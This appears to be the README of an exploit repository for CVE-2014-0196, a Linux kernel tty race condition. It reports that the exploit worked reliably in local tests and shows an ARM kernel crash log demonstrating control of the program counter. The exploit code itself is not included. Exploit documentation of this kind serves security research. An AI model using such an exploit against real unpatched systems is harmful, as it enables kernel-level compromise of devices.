 # CVE-2014-0196

Edit : This README will be updated in the next few days.

Bug : Race condition in : tty_insert_flip_string_fixed_flag

Out of the 3 times the exploit was locally tested, it worked the 3 times under 1 minute. Thus, it is considered to have good reliability.

Debugging comments are in the source code, here is an extract from PC control :

```
Unable to handle kernel paging request at virtual address 41414140
pgd = e119c000
[41414140] *pgd=00000000
Internal error: Oops: 80000005 [#1] PREEMPT ARM
CPU: 0    Not tainted  (3.4.67-g2d58ef9-dirty #123)
PC is at 0x41414140
LR is at tty_ioctl+0xb6c/0xc04
pc : [<41414140>]    lr : [<c01f25c8>]    psr: 20000033
sp : e1199ea0  ip : 00005418  fp : ed908d40
r10: e1386780  r9 : e1198000  r8 : e0d00800
r7 : bec2fc94  r6 : deadbeef  r5 : e0d00800  r4 : 00000000
r3 : 41414141  r2 : bec2fc94  r1 : deadbeef  r0 : e0d00800
```
